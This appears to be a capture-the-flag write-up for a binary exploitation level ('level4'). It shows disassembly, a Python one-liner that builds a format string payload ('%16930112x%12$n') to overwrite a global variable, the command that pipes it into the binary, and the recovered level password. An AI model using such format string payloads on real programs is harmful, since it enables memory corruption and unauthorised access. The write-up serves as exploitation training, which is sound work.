 This binary seems to function similarly to the one in level3
The program will print the flag itself if we can alter obj.m 

mov eax, dword [obj.m] 	; 0x8049810
cmp eax, 0x1025544	; 16930116
...
# call sym.imp.system	; str.bin_cat__home_user_level5_.pass

We can do this with the same format string attack as level3
However, we won't be able to input 16930116 characters for %n, we will have to include a padding modifier
Additionally, the printf call takes place in a later stack frame than fgets, so we will have to reach higher in the memory to access the buffer for %n

python -c "print '\x08\x04\x98\x10'[::-1] + '%16930112x%12\$n'" > /tmp/inj4
cat /tmp/inj4 | ./level4

0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
